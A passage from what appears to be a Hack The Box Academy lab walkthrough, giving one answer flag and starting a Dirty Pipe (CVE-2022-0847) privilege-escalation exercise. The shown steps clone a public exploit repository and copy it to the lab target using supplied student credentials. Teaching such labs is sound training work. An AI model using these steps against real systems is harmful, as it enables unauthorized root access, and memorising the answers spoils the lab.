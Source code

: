 Finally, students will see that the flag reads `HTB{p0Lk1tt3n}`.

Answer: `HTB{p0Lk1tt3n}`

# Dirty Pipe

## Question 1

### "Escalate the privileges and submit the contents of flag.txt as the answer."

First, students need to clone the repository for the [Dirty Pipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git) exploit and then transfer it to the target using `scp`, utilizing the credentials `htb-student:HTB_@cademy_stdnt!`

Code: shell

```shell
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
scp -r CVE-2022-0847-DirtyPipe-Exploits/ htb-student@STMIP:~/
```

```
┌─[eu-academy-1]─[10.10.15.141]─[htb-ac-594497@htb-rkxqsrkwmn]─[~]
└──╼ [★]$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git

Cloning into 'CVE-2022-0847-DirtyPipe-Exploits'...
remote: Enumerating objects: 27, done.
remote: Counting objects: 100% (27/27), done.
remote: Compressing objects: 100% (23/23), done.
remote: Total 27 (delta 7), reused 9 (delta 2), pack-reused 0
Receiving objects: 100% (27/27), 11.46 KiB | 1.15 MiB/s, done.
Resolving deltas: 100% (7/7), done.

┌─[eu-academy-1]─[10.10.15.141]─[htb-ac-594497@htb-rkxqsrkwmn]─[~]
└──╼ [★]$ scp -r CVE-2022-0847-DirtyPipe-Exploits/ htb-student@10.129.204.55:~/

The authenticity of host '10.129.204.55 (10.129.204.55)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.204.55' (ECDSA) to the list of known hosts.
htb-student@10.129.204.55's password: 
exploit-2.c                                   100% 7752     3.0MB/s   00:00
exploit-1.c                                   100% 5364     2.6MB/s   00:00
README.md                                     100% 2937     1.5MB/s   00:00
<SNIP>
```

Then, students need to connect to the spawned target machine using `SSH` and the credentials `htb-student:HTB_@cademy_stdnt!`:

Code: shell
